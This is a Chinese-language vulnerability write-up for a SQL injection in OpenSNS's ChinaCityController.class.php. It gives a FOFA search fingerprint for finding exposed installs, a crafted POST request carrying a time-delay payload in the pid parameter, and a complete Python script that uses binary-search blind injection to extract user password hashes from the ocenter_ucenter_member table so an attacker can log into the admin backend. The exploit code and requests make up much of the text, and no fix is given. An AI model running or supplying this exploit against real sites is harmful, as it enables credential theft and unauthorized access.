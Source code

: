 # OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc.png)

存在漏洞的文件为 **Addons/ChinaCity/Controller/ChinaCityController.class.php**

![img](../../../.vuepress/public/img/1634530581898-96bfb012-9b06-4000-8688-3f60e59fe5af.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![img](../../../.vuepress/public/img/1634530661937-f8552b8b-a5c2-4633-9cef-e20b31154085.png)

通过构造请求闭合SQL语句，造成SQL注入

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![img](../../../.vuepress/public/img/1634531129827-a6c0bd01-e6e8-41a8-a7aa-0d0349843d9e.png)

通过二分法延时注入可以获取用户账号密码，登录后台

```php
import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![img](../../../.vuepress/public/img/1634531377138-0fc38dc3-684c-41d1-a3bb-974274f025fd.png)